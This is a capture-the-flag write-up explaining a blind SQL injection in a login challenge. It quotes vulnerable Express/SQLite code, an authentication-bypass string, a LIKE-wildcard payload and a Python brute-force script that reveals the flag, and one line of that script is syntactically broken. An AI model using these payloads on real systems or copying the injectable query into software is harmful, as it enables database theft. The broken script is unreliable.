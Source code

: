 # web/password-3

A quick but interesting proof of concept that security by obscurity does not and will never work. Even when you don't have reflected feedback from your SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Looking at the source code for the server file 
```js
const crypto = require('crypto')

const database = require('better-sqlite3')

const express = require('express')

const app = express()

  

FLAG = process.env.FLAG ?? 'flag{testflag}'

  

const db = new database(':memory:')

const id = () => crypto.randomBytes(16).toString('hex')

  

app.use(express.static('public'))

app.use(express.json())

  

app.post('/password', (req, res) => {

    const password = (req.body.password ?? '').toString()

    const result = db.prepare(

        `SELECT password FROM passwords WHERE password='${password}';`

    ).get()

    if (result) res.json({

        success: true,

        message: (

            'Congrats on logging in! However, that\'s not enough... can you ' +

            'find the flag in the database this time?'

        ),

    })

    else res.json({ success: false })

})

  

db.exec(`

    CREATE TABLE passwords (

        password TEXT

    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${FLAG}');

`)

  

app.listen(3000)
```

as well as this script tag in the frontend index.html file
```js
form.addEventListener('submit', async (event) => {

	event.preventDefault();

	const input = document.querySelector('input[type="text"]');

	const response = await fetch('/password', {

	  method: 'POST',

	  headers: { 'content-type': 'application/json' },

	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()

	if (result.success) {

	  const content = document.querySelector('.content')

	  content.textContent = result.message;

	} else {

	  input.removeAttribute('style');

	  input.offsetWidth;

	  input.style.animation = 'shake 0.25s';

	}

  });
```

we realize that after clicking the `Login` button our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string ```
```SQL
SELECT password FROM passwords WHERE password='${password}';`.
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
`Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code we see 
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`

    CREATE TABLE passwords (

        password TEXT

    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${FLAG}');

`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character with the server returning a valid logged in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Writing up a quick bruteforce script to run this iteratively on the `/password` endpoint we get our final exploit

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
	for char in possibilities: 
		print("Trying: " + flag + payload + char) 
		password = f"' OR password LIKE '{flag + payload + char}%" 
	    print(password) 
		r = requests.post(url, json={"password": password}) 
		print(r.text) 
		if r.text.find("Congrats") != -1: 
			payload += char if payload[-1] == "}": 
			exit() 
		break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag but nonetheless iterates through all the previous characters and gets the necessary part of the flag.


## Challenge Analysis
This was a quick and simple challenge but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to find vulnerabilities in the system or exploit those very backend operations.

The challenge provided us with the sourcecode for the server making it almost immediately apparent what had to be done but even without source code this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to try and read data from other tables on the database if not secured properly and leak data on a much larger scale than just a single flag in a single location, as was the case here.
